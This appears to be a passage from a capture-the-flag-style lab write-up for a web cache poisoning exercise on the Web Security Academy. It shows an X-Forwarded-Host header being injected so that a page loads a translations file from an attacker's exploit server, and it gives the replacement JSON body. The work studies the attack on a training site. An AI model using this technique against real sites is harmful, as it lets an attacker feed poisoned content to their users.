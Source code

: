 We are missing the part how to set the `data.host` value.

Let's check for Headers with Param Miner:
- `X-Forwarded-Host`
- `X-Original-Url`

Check **`X-Forwarded-Host`**:

```http
GET /?localized=1 HTTP/2
Host: my.web-security-academy.net
Cookie: session=ABKpktysNtt7G0ErlcDaTXhnahfbNZi2; lang=en
...
X-Forwarded-Host: test.net


```

In the Response, notice:
```js
<script>
	data = {"host":"test.net","path":"/"}
</script>
...
<script>
	initTranslations('//' + data.host + '/resources/json/translations.json');
</script>
```

This is similar to previous lab. Setup Exploit Server.

File:

```
/resources/json/translations.json
```

Body:

```json
{
    "en": {
        "name": "English"
    },
    ...
    "en-gb": {
        "name": "Proper English",
        "translations": {
            "Return to list": "Back to the warp",
            "View details": "Auger Array",
            "Description:": "Omnissiah Protects!"
        }
    },
    ...
}
```

